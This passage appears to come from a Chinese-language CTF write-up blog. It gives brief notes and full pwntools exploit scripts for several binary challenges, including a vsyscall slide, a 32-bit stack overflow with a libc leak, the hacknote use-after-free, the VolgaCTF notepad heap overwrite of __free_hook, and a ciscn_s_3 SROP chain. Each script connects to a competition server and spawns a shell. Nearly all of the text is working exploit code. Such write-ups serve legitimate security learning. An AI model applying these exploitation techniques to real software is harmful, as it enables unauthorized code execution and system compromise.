8 | p.sendlineafter('Choice:','2') |
9 | p.sendlineafter('Choice:','1') |
10 | p.sendlineafter('How many levels?','0') |
11 | p.sendlineafter('Any more?',str(offset)) |
12 | padding = p64(0)*6 |
13 | for i in range(99): |
14 | p.sendafter('Answer:',padding) |
15 | p.sendafter('Answer:','FMYY'*0xE + p64(vsyscall)*3) |
16 | p.interactive() |
17 | |
18 | '''VSYSCALL |
19 | 0xFFFFFFFFFF600000: mov rax,0x60 |
20 | 0xFFFFFFFFFF600007: syscall |
21 | 0xFFFFFFFFFF600009: ret |
22 | # VSYSCALL 指令的地址为固定的,若执行此汇编指令,程序会不断的ret地址,最终抵达后门函数 |
23 | ''' |
下载
HMI流水灯
简单的栈溢出,而要如果利用后面的的read函数,则在alarm(1)这个时钟函数会停顿1s然后我们就能发送数据了
1 | from pwn import* |
2 | #context.log_level ='DEBUG' |
3 | p = remote('111.198.29.45',45407) |
4 | elf =ELF('./main',checksec=False) |
5 | libc = ELF('./libc_32.so.6',checksec=False) |
6 | PI = '\x00'*0x8C + p32(elf.plt['write']) + p32(elf.sym['gee']) + p32(1) + p32(elf.got['printf']) + p32(4) |
7 | p.sendafter('\n\n',PI) |
8 | libc.address = u32(p.recv(4)) - libc.sym['printf'] |
9 | p.send('\x00'*0x8C + p32(libc.sym['system']) + p32(0) + p32(libc.search('/bin/sh').next())) |
10 | p.interactive() |
下载
hacknote
XCTF这个题是忘记放附件还是盲打,而看了题后盲打又如何好确定那个print函数
本来如果单独的申请空间还想利用partional write引起堆块重叠,然后利用stdout泄漏libc,最后double free改malloc_hook为og,思路都理好了,然后…一脸懵比的购买了7个金币的WP
1 | from pwn import* |
2 | context(log_level='DEBUG',arch='amd64') |
3 | def add(size,content): |
4 | p.sendlineafter('Your choice :','1') |
5 | p.sendlineafter('Note size :',str(size)) |
6 | p.sendafter('Content :',content) |
7 | def free(index): |
8 | p.sendlineafter('Your choice :','2') |
9 | p.sendlineafter('Index :',str(index)) |
10 | def show(index): |
11 | p.sendlineafter('Your choice :','3') |
12 | p.sendlineafter('Index :',str(index)) |
13 | |
14 | p = remote('111.198.29.45',53083) |
15 | add(0x20,'FMYY') |
16 | add(0x20,'FMYY') |
17 | free(0) |
18 | free(1) |
19 | add(8,p32(0x804862B) + p32(0x0804A00C)) |
20 | show(0) |
21 | libc_base = u32(p.recv(4)) - 0x0D4350 |
22 | system = 0x03A940 + libc_base |
23 | binsh = 0x15902B + libc_base |
24 | free(2) |
25 | add(8,p32(system) + '||sh') |
26 | show(0) |
27 | p.interactive() |
下载
notepad
VolgaCTF上貌似唯一的一个Pwn题,Pwn没有牌面,edit那里溢出1位可以令下一个notebook的前32个字节作为一段tab信息
1 | from pwn import* |
2 | context.log_level ='DEBUG' |
3 | p = remote('notepad.q.2020.volgactf.ru',45678) |
4 | libc = ELF('./libc-2.27.so',checksec=False) |
5 | #p = process('./main') |
6 | def pick_notebook(index): |
7 | p.sendlineafter('>','p') |
8 | p.sendlineafter('pick:',str(index)) |
9 | def add_notebook(name): |
10 | p.sendlineafter('>','a') |
11 | p.sendlineafter('name:',name) |
12 | def delete_notebook(index): |
13 | p.sendlineafter('>','d') |
14 | p.sendlineafter('delete:',str(index)) |
15 | def list_notebook(): |
16 | p.sendlineafter('>','l') |
17 | #--------------- |
18 | def add(name,size,data): |
19 | p.sendlineafter('>','a') |
20 | p.sendlineafter('name:',name) |
21 | p.sendlineafter('(in bytes):',str(size)) |
22 | p.sendafter('data:',data) |
23 | def show(index): |
24 | p.sendlineafter('>','v') |
25 | p.sendlineafter('view:',str(index)) |
26 | def free(index): |
27 | p.sendlineafter('>','d') |
28 | p.sendlineafter('delete:',str(index)) |
29 | def list(): |
30 | p.sendlineafter('>','l') |
31 | def edit(index,name,size,data): |
32 | p.sendlineafter('>','u') |
33 | p.sendlineafter('update:',str(index)) |
34 | p.sendlineafter('(leave empty to skip):',name) |
35 | p.sendlineafter('the same)',str(size)) |
36 | p.sendafter('data:',data) |
37 | add_notebook('FMYY') |
38 | pick_notebook(1) |
39 | add('1',0x500,'FMYY') |
40 | add('2',144,'FMYY') #2->1 |
41 | free(1) |
42 | add('2',0x500,'\xA0') |
43 | show(2) |
44 | libc.address = u64(p.recvuntil('\x7F')[-6:].ljust(8,'\x00')) - libc.sym['__malloc_hook'] - 0x70 |
45 | log.info('LIBC:\t' + hex(libc.address)) |
46 | free_hook = libc.sym['__free_hook'] |
47 | og = [0x4F2C5,0x4F322,0x10A38C] |
48 | one_gadget = libc.address + og[1] |
49 | p.sendlineafter('>','q') |
50 | add_notebook('II') |
51 | pick_notebook(2) |
52 | for i in range(0x10): |
53 | add(p64(free_hook),0x100,'FMYY') |
54 | p.sendlineafter('>','q') |
55 | pick_notebook(1) |
56 | for i in range(0x40-2): |
57 | add('FMYY',0x100,'FMYY') |
58 | edit(65,'FMYY',0x10,p64(one_gadget)) |
59 | free(1) |
60 | p.interactive() |
下载
Ciscn_s_3
BUU上面的一题,SROP做,挺简单的,没有什么限制,可利用性很高
1 | from pwn import* |
2 | context.log_level ='DEBUG' |
3 | syscall_ret = 0x400517 |
4 | mov_rax_F = 0x4004DA |
5 | pop_rdi_ret= 0x4005A3 |
6 | main = 0x40051D |
7 | p = process('./main') |
8 | p = remote('node3.buuoj.cn',26817) |
9 | elf = ELF('./main',checksec=False) |
10 | libc = ELF('./libc-2.27.so',checksec=False) |
11 | payload_I = '\x00'*0x10 + p64(main) |
12 | |
13 | p.send(payload_I) |
14 | p.recvuntil(p64(0x400536)) |
15 | stack = u64(p.recv(6).ljust(8,'\x00')) |
16 | log.info('Stack:\t' + hex(stack)) |
17 | #------------------------ |
18 | fake_frame = p64(0) * 12 |
19 | fake_frame += p64(1) # RDI = RAX |
20 | fake_frame += p64(0x601018) # RSI |
21 | fake_frame += p64(0) # RBP |
22 | fake_frame += p64(0) # RBX |
23 | fake_frame += p64(0x100) # RDX |
24 | fake_frame += p64(1) # RAX |
25 | fake_frame += p64(0) # RCX |
26 | fake_frame += p64(stack - 0x20) # RSP |
27 | fake_frame += p64(syscall_ret) # RIP |
28 | fake_frame += p64(0) # eflags |
29 | fake_frame += p64(0x33) # cs : gs : fs |
30 | fake_frame += p64(0) * 7 |
31 | |
32 | payload_II = '\x00'*0x10 + p64(mov_rax_F) + p64(syscall_ret) + p64(0) + fake_frame |
33 | payload_II += p64(main) |
34 | p.send(payload_II) |
35 | libc_base =u64(p.recvuntil('\x7F')[-6:].ljust(8,'\x00')) - libc.sym['__libc_start_main'] |
36 | log.info('LIBC:\t' + hex(libc_base)) |
37 | binsh = libc_base + libc.search('/bin/sh').next() |
38 | system = libc_base + libc.sym['system'] |
39 | rce = libc_base + 0x4F322 |
40 | #------------------------ |
41 | #p.send('\x00'*0x10 + p64(pop_rdi_ret) + p64(binsh) + p64(system)) |
42 | p.send('\x00'*0x10 + p64(rce)) |
43 | p.interactive() |